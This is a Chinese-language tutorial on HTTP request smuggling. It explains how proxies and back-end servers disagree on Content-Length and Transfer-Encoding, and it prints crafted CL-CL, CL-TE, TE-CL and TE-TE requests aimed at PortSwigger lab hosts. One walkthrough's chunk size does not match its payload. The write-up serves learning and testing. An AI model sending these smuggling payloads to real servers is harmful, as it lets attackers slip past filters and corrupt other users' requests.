



# [](#http-%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81)HTTP 请求走私

## [](#1-%E5%89%8D%E8%A8%80)1 前言

### [](#11-keep-alive)1.1 Keep-Alive

在 HTTP 1.0 之前的协议设计中，客户端每进行一次 HTTP 请求，就需要同服务器建立一个 TCP 链接。而现代的 Web 网站页面是由多种资源组成的，我们要获取一个网页的内容，不仅要请求 HTML 文档，还有 JS、CSS、图片等各种各样的资源，这样如果按照之前的协议设计，就会导致 HTTP 服务器的负载开销增大。于是在 HTTP 1.1 中，增加了 Keep-Alive 和 Pipeline 这两个特性。

Keep-Alive 是什么？就是在 HTTP 请求中增加一个特殊的请求头 Connection: Keep-Alive，告诉服务器，接收完这次 HTTP 请求后，不要关闭 TCP 链接，后面对相同目标服务器的 HTTP 请求，重用这一个 TCP 链接，这样只需要进行一次 TCP 握手的过程，可以减少服务器的开销，节约资源，还能加快访问速度。当然，这个特性在 HTTP 1.1 中是默认开启的。

### [](#12-pipeline)1.2 Pipeline

有了 Keep-Alive 之后，后续就有了Pipeline，在这里呢，客户端可以像流水线一样发送自己的 HTTP 请求，而不需要等待服务器的响应，服务器那边接收到请求后，需要遵循先入先出机制，将请求和响应严格对应起来，再将响应发送给客户端。现在，浏览器默认是不启用 Pipeline 的，但是一般的服务器都提供了对 Pipeline 的支持。


### [](#13-%E5%8E%9F%E7%90%86)1.3 原理

反向代理服务器与后端的源站服务器之间，会重用 TCP 链接，因为代理服务器与后端的源站服务器的 IP 地址是相对固定，不同用户的请求通过代理服务器与源站服务器建立链接，所以就顺理成章了。

但是由于两者服务器的实现方式不同，如果用户提交模糊的请求可能代理服务器认为这是一个 HTTP 请求，然后将其转发给了后端的源站服务器，但源站服务器经过解析处理后，只认为其中的一部分为正常请求，剩下的那一部分就是走私的请求了，这就是 HTTP 走私请求的由来。

HTTP 请求走私漏洞的原因是由于 HTTP 规范提供了两种不同方式来指定请求的结束位置，它们是 `Content-Length` 标头和 `Transfer-Encoding` 标头，`Content-Length` 标头简单明了，它以字节为单位指定消息内容体的长度。

`Transfer-Encoding` 标头用于指定消息体使用分块编码（Chunked Encode），也就是说消息报文由一个或多个数据块组成，每个数据块大小以字节为单位（十六进制表示） 衡量，后跟换行符，然后是块内容，最重要的是：整个消息体以大小为 0 的块结束，也就是说解析遇到 0 数据块就结束。如：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```HTTP<br>POST / HTTP/1.1<br>Host: ac6f1ff11e5c7d4e806912d000080058.web-security-academy.net<br>Content-Type: application/x-www-form-urlencoded<br>Transfer-Encoding: chunked<br>b<br><br>a=11<br><br>0<br>``` |

其实理解起来真的很简单，相当于我发送请求，包含`Content-Length`，前端服务器解析后没有问题发送给后端服务器，但是我在请求时后面还包含了`Transfer-Encoding`，这样后端服务器进行解析便可执行我写在下面的一些命令，这样便可以绕过前端的 waf。

## [](#2-%E5%AE%9E%E4%BE%8B)2 实例

### [](#21-cl-%E4%B8%8D%E4%B8%BA-0-%E7%9A%84-get-%E8%AF%B7%E6%B1%82)2.1 CL 不为 0 的 GET 请求

假设前端代理服务器允许 GET 请求携带请求体，而后端服务器不允许 GET 请求携带请求体，它会直接忽略掉 GET 请求中的 `Content-Length` 头，不进行处理。这就有可能导致请求走私。

比如我们构造请求：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```http<br>GET / HTTP/1.1\r\n<br>Host: example.com\r\n<br>Content-Length: 44\r\n<br><br>GET / secret HTTP/1.1\r\n<br>Host: example.com\r\n<br>\r\n<br>``` |

前端服务器收到该请求，通过读取 `Content-Length`，判断这是一个完整的请求，然后转发给后端服务器，而后端服务器收到后，因为它不对 `Content-Length` 进行处理，由于 `Pipeline` 的存在，它就认为这是收到了两个请求，分别是

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```http<br># 第一个<br>GET / HTTP/1.1\r\n<br>Host: example.com\r\n<br><br># 第二个<br>GET /secret HTTP/1.1\r\n<br>Host: example.com\r\n<br>``` |

### [](#22-cl-cl)2.2 CL-CL

在 `RFC7230` 的第 `3.3.3` 节中的第四条中，规定当服务器收到的请求中包含两个 `Content-Length`，而且两者的值不同时，需要返回 400 错误。

但是总有服务器不会严格的实现该规范，假设中间的代理服务器和后端的源站服务器在收到类似的请求时，都不会返回 400 错误，但是中间代理服务器按照第一个 `Content-Length` 的值对请求进行处理，而后端源站服务器按照第二个 `Content-Length` 的值进行处理。

此时恶意攻击者可以构造一个特殊的请求：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```http<br>POST / HTTP/1.1\r\n<br>Host: example.com\r\n<br>Content-Length: 8\r\n<br>Content-Length: 7\r\n<br><br>12345\r\n<br>a<br>``` |

中间代理服务器获取到的数据包的长度为 8，将上述整个数据包原封不动的转发给后端的源站服务器，而后端服务器获取到的数据包长度为 7。当读取完前 7个字符后，后端服务器认为已经读取完毕，然后生成对应的响应，发送出去。而此时的缓冲区去还剩余一个字母 `a`，对于后端服务器来说，这个 `a` 是下一个请求的一部分，但是还没有传输完毕。此时恰巧有一个其它的正常用户对服务器进行了请求，假设请求如图所示：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```http<br>GET /index.html HTTP/1.1\r\n<br>Host: example.com\r\n<br>``` |

从前面我们也知道了，代理服务器与源站服务器之间一般会重用 TCP 连接。

这时候正常用户的请求就拼接到了字母 `a` 的后面，当后端服务器接收完毕后，它实际处理的请求其实是：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```http<br>aGET /index.html HTTP/1.1\r\n<br>Host: example.com\r\n<br>``` |

这时候用户就会收到一个类似于 `aGET request method not found` 的报错。这样就实现了一次 HTTP 走私攻击，而且还对正常用户的行为造成了影响，而且后续可以扩展成类似于 CSRF 的攻击方式。

但是两个 `Content-Length` 这种请求包还是太过于理想化了，一般的服务器都不会接受这种存在两个请求头的请求包。但是在 `RFC2616` 的第 4.4 节中，规定:`如果收到同时存在 Content-Length 和 Transfer-Encoding 这两个请求头的请求包时，在处理的时候必须忽略 Content-Length`，这其实也就意味着请求包中同时包含这两个请求头并不算违规，服务器也不需要返回 `400` 错误。服务器在这里的实现更容易出问题。

### [](#23-cl-te)2.3 CL-TE

所谓`CL-TE`，就是当收到存在两个请求头的请求包时，前端代理服务器只处理 `Content-Length` 这一请求头，而后端服务器会遵守 `RFC2616` 的规定，忽略掉 `Content-Length`，处理 `Transfer-Encoding` 这一请求头。

chunk 传输数据格式如下，其中 size 的值由 16 进制表示。

Lab 地址：[https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te](https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te)

构造数据包：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```http<br>POST / HTTP/1.1\r\n<br>Host: ace01fcf1fd05faf80c21f8b00ea006b.web-security-academy.net\r\n<br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n<br>Accept-Language: en-US,en;q=0.5\r\n<br>Cookie: session=E9m1pnYfbvtMyEnTYSe5eijPDC04EVm3\r\n<br>Connection: keep-alive\r\n<br>Content-Length: 6\r\n<br>Transfer-Encoding: chunked\r\n<br>\r\n<br>0\r\n<br>\r\n<br>G<br>``` |

连续发送几次请求就可以获得该响应：



### [](#24-te-cl)2.4 TE-CL

所谓 `TE-CL`，就是当收到存在两个请求头的请求包时，前端代理服务器处理 `Transfer-Encoding` 这一请求头，而后端服务器处理 `Content-Length` 请求头。

Lab地址：[https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl](https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl)

构造数据包：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```http<br>POST / HTTP/1.1\r\n<br>Host: ac041f531eabd0cd804edb62000c0025.web-security-academy.net\r\n<br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n<br>Accept-Language: en-US,en;q=0.5\r\n<br>Cookie: session=3Eyiu83ZSygjzgAfyGPn8VdGbKw5ifew\r\n<br>Content-Length: 4\r\n<br>Transfer-Encoding: chunked\r\n<br>\r\n<br>12\r\n<br>GPOST / HTTP/1.1\r\n<br>\r\n<br>0\r\n<br>\r\n<br>``` |



由于前端服务器处理 `Transfer-Encoding`，当其读取到 `0\r\n\r\n`时，认为是读取完毕了，此时这个请求对代理服务器来说是一个完整的请求，然后转发给后端服务器，后端服务器处理 `Content-Length` 请求头，当它读取完 `5c\r\n` 之后，就认为这个请求已经结束了，后面的数据就认为是另一个请求了，也就是：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```http<br>GPOST / HTTP/1.1<br>Content-Type: application/x-www-form-urlencoded<br>Content-Length: 15<br><br>x=1<br>0<br>``` |

### [](#25-te-te)2.5 TE-TE

`TE-TE`，也很容易理解，当收到存在两个请求头的请求包时，前后端服务器都处理 `Transfer-Encoding` 请求头，这确实是实现了 RFC 的标准。不过前后端服务器毕竟不是同一种，这就有了一种方法，我们可以对发送的请求包中的 `Transfer-Encoding` 进行某种混淆操作，从而使其中一个服务器不处理 `Transfer-Encoding` 请求头。从某种意义上还是 `CL-TE` 或者 `TE-CL`。

Lab地址：[https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header](https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header)

构造数据包：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>``` | ```http<br>POST / HTTP/1.1\r\n<br>Host: ac4b1fcb1f596028803b11a2007400e4.web-security-academy.net\r\n<br>User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0\r\n<br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n<br>Accept-Language: en-US,en;q=0.5\r\n<br>Cookie: session=Mew4QW7BRxkhk0p1Thny2GiXiZwZdMd8\r\n<br>Content-length: 4\r\n<br>Transfer-Encoding: chunked\r\n<br>Transfer-encoding: cow\r\n<br>\r\n<br>5c\r\n<br>GPOST / HTTP/1.1\r\n<br>Content-Type: application/x-www-form-urlencoded\r\n<br>Content-Length: 15\r\n<br>\r\n<br>x=1\r\n<br>0\r\n<br>\r\n<br>``` |


